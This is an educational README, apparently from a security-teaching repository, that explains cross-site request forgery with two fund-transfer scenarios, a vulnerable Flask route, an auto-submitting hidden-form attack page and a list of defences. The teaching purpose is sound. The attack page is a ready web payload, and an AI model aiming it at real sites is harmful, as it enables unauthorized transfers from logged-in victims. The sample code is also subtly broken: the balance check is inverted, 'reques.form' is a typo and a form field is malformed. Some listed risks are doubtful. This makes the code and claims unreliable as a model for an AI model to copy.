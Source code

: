 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/cross-site-request-forgery/main/cross-site-request-forgery.png"></p>

A threat actor may trick an authenticated or trusted victim into transmitting unauthorized actions on their behalf.

## Example #1
1. Threat actor crafts an exploit URL for a fund transfer from a vulnerable website
2. Bob logs in to the vulnerable website (Bob is authenticated - session cookie is saved)
3. Threat actor tricks Bob into clicking on the exploit URL
4. Bob clicks on the exploit URL
5. Bob's browser loads the session cookie and performs a fund transfer

## Example #2
1. Threat actor crafts an exploit for a fund transfer from a vulnerable website
2. Threat actor uploads the exploit to a malicious website
3. Bob logs in to the vulnerable website (Bob is authenticated - session cookie is saved)
4. Threat actor tricks Bob into clicking on the malicious website
5. Bob clicks on the malicious website
6. Bob's browser loads the session cookie and performs a fund transfer

## Code
#### Target Logic
```py
...
@app.route("/send_money", methods=["POST"])
@login_required
def send_money():
   ...
   amount = int(request.form.get("amount"))
   to_user = get_user(int(reques.form.get("to_user")))
   if current_user:
      if current_user['balance'] <= amount:
         current_user['balance'] -= amount
         to_user['balance'] += amount
         return make_response({"transfer":"success"}, 200)
   return make_response({"transfer":"failed"}, 200)
...
```

#### Victim Executes
```html
<html>
  <body>
    <form action="https://test.local/send_money" method="POST">
      <input type="hidden" name="amount" value="1000"/>
      <input type="hidden" to_user="amount" value="ABC-999"/>
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Impact
Vary

## Risk
- Read & modify data
- Execute commands

## Redemption
- Header verification
- Challenge-response
- Anti-csrf tokens
- Same-site cookies

## Names
 - XSRF
 - Sea Surf
 - Session Riding
 - Cross-Site reference forgery
 - Hostile linking

## ID
776dd60c-c1de-46a3-a104-25cd836e24b6

## References
- [wiki](https://en.wikipedia.org/wiki/cross-site_request_forgery)
